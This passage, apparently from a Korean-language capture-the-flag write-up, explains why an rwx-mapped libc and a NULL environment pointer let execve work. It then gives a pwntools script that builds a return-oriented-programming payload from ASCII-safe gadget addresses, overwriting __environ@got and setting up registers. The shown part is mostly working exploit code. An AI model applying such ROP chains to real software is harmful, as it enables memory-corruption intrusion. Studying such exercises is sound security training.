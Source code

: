 f77a9000-f77aa000 rw-p 00023000 103:00 57017221                          /lib/i386-linux-gnu/ld-2.23.so
fff9e000-fffbf000 rw-p 00000000 00:00 0                                  [stack]
</pre>

어차피 libc가 rwx영역에 mapping이 되어있기 때문에 data segment든 code segment든 어디든지 마음대로 read write할 수 있다.<br>
그래서 non ascii value가 없는 주소값 아무거나 가져다가 썼다.<br>
그리고 리눅스에서는 환경변수 포인터가 NULL이어도 execve 잘 동작한다.<br>
따라서 최종적으로 아래와 같이 payload를 작성했다.

```python
from pwn import *

##### return address를 조지기 위한 padding
payload = b'A'*32

##### __environ@got 조작
payload += p32(0x555f3555) # pop edx ; xor eax, eax ; pop edi ; ret
payload += p32(0x55572424)
payload += b'AAAA'
# eax = 0, edx = 0x55572424
payload += p32(0x5560645c) # mov dword ptr [edx], eax ; ret

payload += p32(0x555f3555) # pop edx ; xor eax, eax ; pop edi ; ret
payload += p32(0x55572424)
payload += p32(0x30312131)
# eax = 0, edi = 0x30312131
payload += p32(0x555F3276) # add eax, edi ; sub eax, 0x10 ; pop edi ; ret
payload += p32(0x30312131)
# eax = 0x30312121, edi = 0x30312131
payload += p32(0x555F3276) # add eax, edi ; sub eax, 0x10 ; pop edi ; ret
payload += p32(0x30312131)
# eax = 0x60624242, edi = 0x30312131
payload += p32(0x555F3276) # add eax, edi ; sub eax, 0x10 ; pop edi ; ret
payload += p32(0x3b235443)
# eax = 0x90936363, edi = 0x3b235443
payload += p32(0x555f3d4d) # sub eax, edi ; pop esi ; pop edi ; ret
payload += b'AAAA'
payload += b'AAAA'
# eax = 0x55700f20 (__environ@got), edx = 0x55572428
payload += p32(0x555d6225) # mov dword ptr [eax], edx ; ret

# __environ@got -> 0x55572424 (fake __environ pointer) -> 0x0


##### ebx 조작 루틴
payload += p32(0x5557506B) # pop eax ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
payload += p32(0x30312121)
payload += p32(0x555f3555) # pop edx ; xor eax, eax ; pop edi ; ret
payload += b'AAAA'
payload += p32(0x30312131)
payload += b'AAAA'
# eax = 0x30312121, edi = 0x30312131
payload += p32(0x555F3276) # add eax, edi ; sub eax, 0x10 ; pop edi ; ret
payload += p32(0x30312131)
# eax = 0x60624242, edi = 0x30312131
payload += p32(0x555F3276) # add eax, edi ; sub eax, 0x10 ; pop edi ; ret
payload += p32(0x3B23536F)
# eax = 0x90936363, edi = 0x3B23536F
payload += p32(0x555F3D4D) # sub eax, edi ; pop esi ; pop edi ; ret
payload += b'AAAA'
payload += b'AAAA'
# eax = 0x55700FF4, ebx = 0x555f3555 (pop edx ; xor eax, eax ; pop edi ; ret)
payload += p32(0x5566797B) # xchg eax, ebx ; call eax

```